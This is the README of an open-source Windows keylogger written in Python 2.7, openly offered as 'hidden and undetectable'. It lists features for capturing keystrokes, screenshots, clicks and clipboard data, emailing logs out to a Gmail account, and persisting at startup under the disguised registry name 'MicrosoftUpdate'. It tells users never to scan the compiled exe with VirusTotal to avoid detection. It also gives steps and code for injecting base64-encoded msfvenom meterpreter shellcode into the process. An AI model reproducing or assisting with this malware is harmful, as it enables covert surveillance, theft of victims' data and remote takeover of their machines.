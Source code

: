 [![Build status](https://ci.appveyor.com/api/projects/status/5tc6085mmmw6rym8?svg=true)](https://ci.appveyor.com/project/xp4xbox/puffader)
# Puffader

**Python 2.7 is obsolete so this project isn't really supported anymore please use https://github.com/xp4xbox/Python-Keylogger**

Puffader is an opensource, hidden and undetectable keylogger for windows written in Python 2.7 which can also capture screenshots, mouse window clicks and clipboard data.

## Installation
Puffader Requires 32 bit versions of:
* [Python 2.7](https://www.python.org/downloads)
* [Pyhook](https://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/)
* [Pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
* [PyScreeze](https://pypi.org/project/PyScreeze/)
* [Py2Exe](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/)

1. Download the repository using github or git eg.```git clone https://github.com/xp4xbox/Puffader```
2. Install the modules by running `python -m pip install -r requirements.txt`

Please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Installing-Prerequisites) for more information on installing prerequisites.

## Features
Currently Puffader has several features such as:
* Ability to send logs to any gmail account.
* Ability to capture screenshots
* Ability to store logs locally
* Ability to configure log size before sending
* Ability to send logs at timed intervals
* Ability to stop the program via ctrl-rshift-lshift-h.
* Ability to log special characters.
* Ability to embed an undetectable meterpreter shell
* Ability to capture window mouse clicks
* Ability to run at startup
* Ability to capture clipboard data
* Ability to melt file on execution
* Checking for multiple instances
* And more...

## Quick Usage

1. Open file with idle or any other editor.
2. Modifiy lines `18-37` for your personal preference: eg.
```
strEmailAc = "email@gmail.com"
strEmailPass = "pass"

intCharPerSend = 1000

blnUseTime = "False"
intTimePerSend = 120

blnStoreLocal = "True"
strLogFile = "c:/temp/test.txt"

blnScrShot = "True"
strScrDir = "c:/temp"
intScrTime = 120

blnLogClick = "True"
blnAddToStartup = "False"

blnLogClipboard = "False"
blnMelt = "False"
```
> NOTE: For `strScrDir`, be sure to leave out the last `/`.

#### You can only choose one method for storing/sending logs, default is by email.

#### If you plan to send messages via email, be sure to [allow access for less secure apps](https://myaccount.google.com/lesssecureapps) in your gmail account.

#### If you ever set the program to run at startup and want to remove it, open regedit and navigate to `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` and delete the value `MicrosoftUpdate`.

For more information please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Usage).

### Compiling Program To .exe

> NOTE: Never scan compiled .exe's with Virus Total, NoDistribute or any other online public scan sites.

#### Py2Exe
1. **(Optional)** Add this code to Puffader.py `sys.stderr = None` after the import statements to ensure no errors will show.
3. Make sure the program is called Puffader.py in your python folder as well.
4. Run `python setup.py`
5. You should see the .exe in the dist folder.

Or refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Compiling-To-.exe) for more information.

## Adding Meterpreter Plugin

1. Generate raw shellcode using msfvenom (eg. xr8\x02...).
2. Encode the shellcode to base64 by using [this](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/base64encoder.py).
3. Move the [code_injector module](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/code_injector.py) to same dir as the program.
4. Paste in this code after the function to prevent multiple instances as [here](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/Puffader_Code_Addition.py). Setting b64shellcode to be your encrypted shellcode.
```
import code_injector, base64
# base64 shellcode
b64shellcode = ""
shellcode = base64.b64decode(b64shellcode)  # decrypt shellcode
pid = os.getpid()  # get current pid

code_injector.InjectShellCode(pid, shellcode)  # inject the shellcode into the program
```
5. Build program with Py2Exe.

> Check my other project [PyEvade](https://github.com/xp4xbox/PyEvade) for more info on how this works.

## Help

If you need any help at all, feel free to post a "help" issue.

## Contributing

Contributing is encouraged and will help make a better program. Please refer to [this](https://gist.github.com/MarcDiethelm/7303312) before contributing.

## Disclaimer

This program must be used for legal purposes! I am not responsible for anything you do with it.

## License
[License](https://github.com/xp4xbox/Puffader/blob/master/LICENSE)
